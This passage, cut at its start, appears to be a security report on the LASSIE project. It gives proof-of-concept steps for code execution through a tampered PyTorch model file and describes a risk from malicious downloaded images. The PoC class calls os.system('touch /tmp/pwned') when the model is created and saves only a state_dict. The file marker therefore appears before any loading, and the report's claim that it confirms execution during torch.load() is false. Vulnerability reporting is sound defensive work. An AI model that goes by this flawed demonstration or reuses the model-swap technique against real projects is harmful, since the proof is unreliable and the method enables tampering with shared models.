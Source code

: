         class MaliciousModel(torch.nn.Module):
            def __init__(self):
                super().__init__()
                # Command to execute: Create a file named 'pwned' in the /tmp directory
                os.system('touch /tmp/pwned')

            def forward(self, x):
                return x

        malicious_model = MaliciousModel()
        torch.save(malicious_model.state_dict(), 'malicious_primitive_decoder.pth')
        print("Malicious model 'malicious_primitive_decoder.pth' created.")
        ```
    2. **Replace Legitimate Model**:
        * Navigate to the `model_dump/` directory within the LASSIE project.
        * **Backup**: Rename the original `primitive_decoder.pth` to `primitive_decoder.pth.bak` to keep a backup.
        * **Replace**: Copy the `malicious_primitive_decoder.pth` (generated in step 1) into the `model_dump/` directory and rename it to `primitive_decoder.pth`, effectively replacing the legitimate model with the malicious one.
    3. **Run LASSIE Training**: Execute the LASSIE training script:
        ```bash
        python main/train.py --cls zebra
        ```
    4. **Verify Code Execution**: After running the training script, check if the malicious code was executed:
        ```bash
        ls /tmp/pwned
        ```
        * If the command `ls /tmp/pwned` shows the file `/tmp/pwned`, it confirms that the malicious code embedded in `malicious_primitive_decoder.pth` was successfully executed during model loading by `torch.load()`. This demonstrates arbitrary code execution.

#### 2. Image File Processing Vulnerability via Malicious Web Image

* Description:
  1. The LASSIE project downloads animal images from URLs listed in a CSV file (`datasets/web_images.py`).
  2. The `datasets/web_images.py` script uses `requests.get()` to fetch images from these URLs.
  3. The downloaded content is written directly to a file (e.g., `data/web_images/images/zebra/input_123.png`).
  4. The script then uses `cv2.imread()` to load the image file for processing.
  5. If an attacker can manipulate the URLs in the CSV file to point to a malicious image file, or if the original image source is compromised and replaced with a malicious image, the `requests.get()` function will download this malicious image.
  6. When `cv2.imread()` processes this crafted malicious image, it could exploit a potential vulnerability in OpenCV or its underlying image processing libraries.
  7. Successful exploitation could lead to arbitrary code execution on the machine running the LASSIE scripts.
